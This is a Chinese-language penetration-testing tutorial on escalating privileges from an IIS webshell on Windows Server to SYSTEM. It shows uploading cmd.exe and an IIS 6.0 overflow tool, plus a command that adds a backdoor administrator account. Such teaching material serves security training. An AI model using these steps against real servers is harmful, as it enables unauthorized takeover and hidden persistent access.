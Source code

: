 ## 1、简介

window服务器 常用的是win2003、win2008、win2012；在渗透测试中 ，我们获取的权限是iis_user用户组 ，要更高的权限就需要把当前的用户提权到系统用户或超级管理员用户组。更高的权限方便我们在后续的渗透中，扩大范围测试。

## 2、程序权限的对比

在iis里面 权限依次的大小对比  aspx -->  php  => asp

aspx默认能执行终端命令

php和asp 如果不能执行命令，在组件没有删除的情况下，可以上传cmd到可执行目录、执行命令 均可以执行终端命令。

执行命令的组件

wscript.shell √ 命令行执行组件,显示

## **3、 溢出过程**

- 在webshell中能执行终端命令

- 上传溢出exp

- 执行命令

## 4、实战

在iis里面默认上传的大小是200k 大于就会报错。

http://www.demoasp.com/sb.asp 密码F4ck

查看组件是否删除

![img](../../acess/wps6.png) 

查看目录是否可写 可写则上传cmd.exe 执行命令 

![img](../../acess/wps7.png) 

上传溢出工具 ii6.0溢出工具执行

![img](../../acess/wps8.png) 

当前的权限就是system用户

增加用户命令

```bash
C:\RECYCLER\iis6.0.exe "net user moonsec moonsec /add & net localgroup administrators moonsec /add"
```

![img](../../acess/wps9-1619623836776.jpg) 

登录服务器

![img](file:///C:\Users\wzxmt\AppData\Local\Temp\ksohtml11448\wps10.jpg) 